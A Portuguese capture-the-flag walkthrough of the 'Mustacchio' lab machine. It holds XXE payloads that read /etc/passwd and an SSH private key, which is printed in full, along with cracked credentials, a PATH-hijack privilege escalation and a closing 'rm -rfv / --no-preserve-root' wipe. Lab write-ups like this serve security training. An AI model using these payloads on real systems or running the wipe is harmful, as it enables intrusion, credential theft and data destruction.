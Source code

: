 MUSTACCHIO CTF

Ao inicar dei nmap 

    nmap -A -sV IP 

Encontrei 2 portas 22, 80

Assim partindo pra procura de diretorios usando o gobuster

    gobuster dir -u IP -w directory-list-2.3-small.txt -x php,html,txt

Encontrando o diretorio /custom que possuia dentro da pasta js tinha um arquivo de backup que ao baixa-lo

    wget IP/custom/users.bak

Ao ler o arquivo encontrava-se um username e uma senha 

    admin1868e36a6d2b17d4c2745f1659433a54d4bc5f4b

Assim 

    username: admin
    password: 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b

Tentando conectar no ssh com essas informacoes nao foi possivel, entao fui atras de outras formas, percebi que essa senha e uma chave encriptada entao fui a um site descriptar essa senha

    hashtoolkit

Ao colocar essa senha la ele me retornava a senha descriptada

    bulldog19

Ao tentar acessar de varias formas e sem sucesso percebi que algo estava errado, refiz os processos para ver o que deixei passar e quando refiz o nmap, percebi onde estava o erro, analisei novamente de uma forma mais agressiva 

    nmap -p- -sV IP

Assim mostrando mais 1 porta que nao tinha acesso antes.. a porta "8765"
Agora acessando essa porta IP:8765 tinha uma pagina admin... agora era so logar com os dados que ja tinhamos

    username admin
    pass bulldog19

Ao acessar esse painel admin tinha uma caixar para inserir comentarios, ao olhar o codigo fonte tinha 2 comentarios interessantes 

    //document.cookie = "Example=/auth/dontforget.bak";
    function cheacktarea() {
    let tbox = document.getElementById("box").value;
    if (tbox == null || tbox.lenght == 0 ) {
    alert("Insert XML Code!")
        }
    }

    <!-- Barry, you can now SSH in using your key! -->

Assim tendo acesso a mais um arquivo de backup e um username 

    wget IP:8765/auth/dontforget.bak

    <?xml version="1.0" encoding="UTF-8"?>
    <comment>
    <name>Joe Hamd</name>
    <author>Barry Clad</author>
    <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
    </comment>

Para explorar essa falha XXE executando o payload XML para ver se era possivel ler as pastas tambem 

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE updateProfile [
    <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
    <comment>
    <name>Joe</name>
    <author>dannydev19</author>
    <com>&file;</com>
    </comment> 

Tendo acesso a essa pasta vi que era possivel ler qualquer arquivo entao, fui atras da chave RSA do Barry 

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE updateProfile [
    <!ENTITY file SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
    <comment>
    <name>Barry</name>
    <author>dannydev19</author>
    <com>&file;</com>
    </comment>

Assim conseguindo ter acesso a chave RSA 

    -----BEGIN RSA PRIVATE KEY----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

    jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
    bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
    MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
    l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
    Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
    NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
    ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
    TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
    rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
    bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
    4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
    7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
    T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
    ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
    LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
    pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
    laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
    vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
    DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
    6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
    ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
    7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
    1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
    +Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
    7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
    -----END RSA PRIVATE KEY----

Criando o arquivo RSA

    nano barryrsa
    Introduzindo essa chave nesse arquivo

Ao tentar connectar no ssh com essa chave direto percebemos que deu outro erro , essa chave estava encriptada e precisamos da senha dela, agora para isso e preciso usar o programa john the ripper, para usar esse programa, primeiramente vemos se ele esta no nosso sistema 

    locate ssh2john.py

Assim e so executar esse arquivos passando os parametros

    python /usr/share/john/ssh2john.py barryrsa > johncracked.hash
    john --wordlist=/usr/share/wordlists/rockyou.txt johncracked.hash

Assim conseguindo a senha do barry

    username: Barry
    password: urieljames

Assim e so conectar no ssh... Finalmente!!

    ssh -i barryrsa barry@IP

Assim conseguindo acesso a maquina

    cat user.txt
    62d77a4d5f97d47c5aa38b3b2651b831

Agora precisamos escalar nossos privilegios e se tornar o root..
Dentro do perfil do Joe tinha um arquivo chamado "live_log"

    strings live_log
    tail -f /var/log/nginx/access.log

Vendo esse arquivo tinhamos que ir ate o /tmp e criar um arquivo chamado "tail"

    nano tail
    
    "/bin/bash"
    
Adicionando perms..

    chmod 777 tail

Agora dentro do user joe executamos o arquivo "live_long" para conseguir acesso ao root
    
    ./live_log

Assim tendo acesso ao root...

    cat root.txt
    3223581420d906c4dd1a5f9b530393a5

Finalizando...

    touch dannydev19.txt
    rm -rfv / --no-preserve-root 
